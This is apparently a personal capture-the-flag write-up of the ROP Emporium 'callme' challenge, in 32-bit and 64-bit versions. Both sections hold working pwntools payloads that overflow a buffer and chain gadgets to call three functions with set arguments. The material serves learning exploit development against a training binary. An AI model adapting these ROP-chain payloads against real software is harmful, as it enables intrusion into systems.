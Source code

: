 # CALLME

In this challenge, we got to explore how functions can be called in succession by crafting an ROP chain. Contrary to the previous challenges, I solved the **64-bit** version first and found it much easier.

## 32-bit

More stacks.

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering

  The problem description is very clear: we have to run `callme_one`, `callme_two`, `callme_three` in succession, each with 0xdeadbeef, 0xcafebabe, 0xd00df00d as the 3 parameters.

  Key addresses:

```
0x80484f0 callme_one@plt
0x8048550 callme_two@plt
0x80484e0 callme_three@plt
0x8048510 exit@plt
```

  Unlike the 64-bit counter we don't have the `usefulGadgets` function.

  Also in `pwnme`, `ebp` was `0xffffccd8`

  I tried jumping into `callme_one` supplying the correct parameters, and jump to `callme_two` afterwards:

```py
r < <(python3 -c 'from pwn import *;\
import sys;\
sys.stdout.buffer.write(\
b"A"*40+\
p32(0xffffccdc)+\
p32(0x80484f0)+\
p32(0x8048550)+\
p32(0xdeadbeef)+\
p32(0xcafebabe)+\
p32(0xd00df00d)\
)')
```

  ![after_pwnme](https://user-images.githubusercontent.com/114584910/197405198-adceafdf-4915-4422-a9f6-ce35cfc18bfe.png)

  ![after_callme_one](https://user-images.githubusercontent.com/114584910/197405200-a488ef95-a134-459e-a1da-b449de73f7d2.png)

  ![at_callme_two](https://user-images.githubusercontent.com/114584910/197405203-05f67fe0-659c-4e9d-b65b-ee61f92c20e2.png)


  My issue became apparent when `callme_two` is called: it takes `cafebabe` as the first parameter, `d00df00d` as the second. This is not the way to go.

  ### Self-education

  I was making a couple of wrong assumptions about `ebp` for the previous challenges:
  
  - I usually placed `ebp` +4 after the value I got in `pwnme` because I wrongly thought my variables would be overwritten if put any higher. The truth is: if we're not jumping in the middle of a function, each function will have its stack frame and nothing is overwritten.
  - I also thought I had to magically use `ebp` to *return control back to any previous functions*, as often shown in tutorial videos to the stack. The truth is: since I'm controlling the program flow, I don't need to pretend that I'm returning to anywhere and just run wild.

  Like 64-bit ELFs, 32-bit ELFs can also have gadgets:

```py
Gadget(0x80485f2, ['add esp, 0x10', 'leave', 'ret'], ['ebp', 'esp'], 0x2540be413)
Gadget(0x80487f5, ['add esp, 0xc', 'pop ebx', 'pop esi', 'pop edi', 'pop ebp', 'ret'], ['ebx', 'esi', 'edi', 'ebp'], 0x20)
Gadget(0x80484aa, ['add esp, 8', 'pop ebx', 'ret'], ['ebx'], 0x10)
Gadget(0x80485f5, ['leave', 'ret'], ['ebp', 'esp'], 0x2540be403)
Gadget(0x80487fb, ['pop ebp', 'ret'], ['ebp'], 0x8)
Gadget(0x80487f8, ['pop ebx', 'pop esi', 'pop edi', 'pop ebp', 'ret'], ['ebx', 'esi', 'edi', 'ebp'], 0x14)
Gadget(0x80484ad, ['pop ebx', 'ret'], ['ebx'], 0x8)
Gadget(0x80487fa, ['pop edi', 'pop ebp', 'ret'], ['edi', 'ebp'], 0xc)
Gadget(0x80487f9, ['pop esi', 'pop edi', 'pop ebp', 'ret'], ['esi', 'edi', 'ebp'], 0x10)
Gadget(0x8048496, ['ret'], [], 0x4)
```

  ### Devising and implementing the payload

  Following the steps in 64-bit version, I had an idea.

```
b"A"*40
ebp
callme_one
(something to clear the stack)
(3 parameters)
callme_two
(something to clear the stack)
(3 parameters)
callme_three
exit
(3 parameters)
```

  Let's try using the gadget at `0x80487f9` to clear our stack:

```py
r < <(python3 -c 'from pwn import *;\
import sys;\
clear_with_parameters = p32(0x80487f9)+p32(0xdeadbeef)+p32(0xcafebabe)+p32(0xd00df00d);\
sys.stdout.buffer.write(\
b"A"*40+\
p32(0xffffccd8)+\
p32(0x80484f0)+\
clear_with_parameters+\
p32(0x8048550)+\
clear_with_parameters+\
p32(0x80484e0)+\
p32(0x8048510)+\
clear_with_parameters[4:]\
)')
```

  It worked.

</details>

## 64-bit

More gadgets.

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering

  The problem description is very clear: we have to run `callme_one`, `callme_two`, `callme_three` in succession, each with 0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d as the 3 parameters. The first, second, third parameters use `rdi`, `rsi` and `rdx` respectively.

  Key addresses:

```
0x400720  callme_one@plt
0x400740  callme_two@plt
0x4006f0  callme_three@plt
0x400750  exit@plt
```

  From breaking in `pwnme`, `rbp` is at `0x7fffffffdae0`.

  Here are some useful gadgets:

```
>>> r.rdx
Gadget(0x40093e, ['pop rdx', 'ret'], ['rdx'], 0x10)
>>> r.rsi
Gadget(0x40093d, ['pop rsi', 'pop rdx', 'ret'], ['rsi', 'rdx'], 0x18)
>>> r.rdi
Gadget(0x4009a3, ['pop rdi', 'ret'], ['rdi'], 0x10)
>>> r.ret
Gadget(0x4006be, ['ret'], [], 0x8)
```

  It's surprising that pwntools did not include the `usefulGadgets` function (at `0x40093c`):

```
Dump of assembler code for function usefulGadgets:
   0x000000000040093c <+0>:     pop    rdi
   0x000000000040093d <+1>:     pop    rsi
   0x000000000040093e <+2>:     pop    rdx
   0x000000000040093f <+3>:     ret    
End of assembler dump.
```

  ### Education

  I wrote about PLT already in [the previous write up]().

  ### Devising and implementing the payload

  Let's get our hands dirty with what we already know (with lines broken):

```py
r < <(python3 -c 'from pwn import *;\
import sys;\
sys.stdout.buffer.write(\
b"A"*32+\
p64(0x7fffffffdae0)+\
p64(0x40093c)+\
p64(0xdeadbeefdeadbeef)+\
p64(0xcafebabecafebabe)+\
p64(0xd00df00dd00df00d)+\
p64(0x4006be)+\
p64(0x400720)+\
p64(0x400750)\
)')
```

  (usefulGadget + 1st_value + 2nd_value + 3rd_value + ret + callme_one + exit)

  ![first_success](https://user-images.githubusercontent.com/114584910/197405147-1ba59efe-cdb9-43ac-bf8a-ac918adceb99.png)

  The registers are overwritten after our function call, but we have 0x200 bytes as buffer and it's more than enough:

```py
r < <(python3 -c 'from pwn import *;\
import sys;\
populate=p64(0x40093c)+p64(0xdeadbeefdeadbeef)+p64(0xcafebabecafebabe)+p64(0xd00df00dd00df00d);\
sys.stdout.buffer.write(\
b"A"*32+\
p64(0x7fffffffdae0)+\
p64(0x4006be)+\
populate+\
p64(0x400720)+\
populate+\
p64(0x400740)+\
populate+\
p64(0x4006f0)+\
p64(0x400750)\
)')
```

</details>

